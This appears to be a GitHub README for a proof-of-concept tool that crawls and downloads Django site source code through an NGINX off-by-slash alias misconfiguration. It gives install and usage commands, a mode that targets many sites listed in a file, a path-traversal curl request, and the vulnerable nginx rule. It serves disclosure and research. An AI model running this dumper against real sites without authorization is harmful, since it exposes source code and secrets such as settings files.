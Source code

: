 # PoC: Off-by-slash Django Site Dumper

A proof of concept to dump Django website's source code affected by NGINX's off-by-slash misconfiguration.


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper
$ cd offbyslash-django-dumper
$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python main.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python main.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a local file inclusion vulnerability caused by a misconfiguration when using NGINX to serve 
static files. Equivalent curl command used by this dumper to dump local files is:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This local file inclusion is caused by a slight but fatal mistake in Nginx's configuration (_Nginx off-by-slash fail_).
For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://affected-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize this vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!), and (recursively?) expand source codes.


## Reference
- [Blackhat USA 2018 presentation slide - by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Nginx alias documentation](http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)
